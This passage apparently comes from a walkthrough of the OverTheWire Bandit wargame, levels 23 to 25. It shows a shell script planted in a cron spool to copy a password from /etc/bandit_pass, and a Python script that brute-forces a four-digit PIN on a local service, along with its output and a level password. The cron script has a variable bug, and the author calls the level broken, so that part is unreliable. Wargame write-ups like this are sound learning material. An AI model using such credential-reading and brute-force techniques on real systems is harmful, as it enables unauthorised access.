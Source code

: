 Let's edit run the script

{% highlight bash %}
bandit23@bandit:/var/spool/bandit24$ /usr/bin/cronjob_bandit24.sh 
/usr/bin/cronjob_bandit24.sh: line 5: cd: /var/spool/bandit23: No such file or directory

...

bandit23@bandit:~$ vim script.sh
bandit23@bandit:~$ cat script.sh 
#!/bin/bash
myname=$(whoami)

cat /etc/bandit_pass/myname > /tmp/myname
bandit23@bandit:~$ chmod -R 777 /tmp/bandit24
bandit23@bandit:~$ vim script.sh
bandit23@bandit:~$ chmod 777 script.sh 
bandit23@bandit:~$ cp script.sh /var/spool/bandit24/
bandit23@bandit:~$ cat /tmp/bandit24
x
{% endhighlight %}

At this point we get should get the password but the level appears to be broken

### Level 24 -> Level 25
I decided to write a python script to obtain the answer 

{% highlight python %}
import socket 

pin = 0
password = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'

clientSocket = socket.socket() # Default AF_INet and SOCK_STREAMM
clientSocket.connect(('localhost', 30002))
clientSocket.recv(1024)
while pin in range(0, 10000):
	m = password + ' ' + str(pin) + '\n'
	print m 
	clientSocket.sendall(m)
	data = clientSocket.recv(1024)
	print data
	pin += 1

# Connection will drop when right answer found
{% endhighlight %}

{% highlight bash %}
...

Wrong! Please enter the correct pincode. Try again.

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5583

Wrong! Please enter the correct pincode. Try again.

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5584

Wrong! Please enter the correct pincode. Try again.

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5585

Wrong! Please enter the correct pincode. Try again.

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5586

Wrong! Please enter the correct pincode. Try again.

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5587

Wrong! Please enter the correct pincode. Try again.
